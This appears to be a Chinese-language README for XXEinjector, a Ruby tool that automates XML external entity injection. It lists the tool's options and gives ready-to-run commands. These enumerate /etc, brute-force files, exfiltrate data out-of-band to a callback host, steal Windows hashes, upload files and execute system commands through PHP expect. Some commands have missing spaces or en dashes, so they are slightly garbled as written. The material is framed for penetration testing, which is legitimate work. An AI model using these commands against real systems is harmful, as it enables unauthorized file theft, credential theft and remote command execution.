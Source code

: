 ## XXEinjector 自动化XXE注射工具

https://github.com/ianxtianxt/XXEinjector

> XXEinjector本身提供了非常非常丰富的操作选项，所以大家在利用XXEinjector进行渗透测试之前，请自习了解这些配置选项，以最大限度地发挥XXEinjector的功能。当然了，由于XXEinjector是基于Ruby开发的，所以Ruby运行环境就是必须的了。

```bash
--host     必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     使用netdoc协议。(Java).
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      XSLT注入测试。
--ssl              使用SSL。
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。

```

## XXEinjector使用样例

枚举HTTPS应用程序中的/etc目录：

```bash
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl

```

使用gopher（OOB方法）枚举/etc目录：

```bash
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher

```

二次漏洞利用：

```bash
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt

```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```bash
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc

```

通过直接性漏洞利用方式进行资源枚举：

```bash
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK

```

枚举未过滤的端口：

```bash
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all

```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes

```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf

```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls

```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt

```

记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt

```

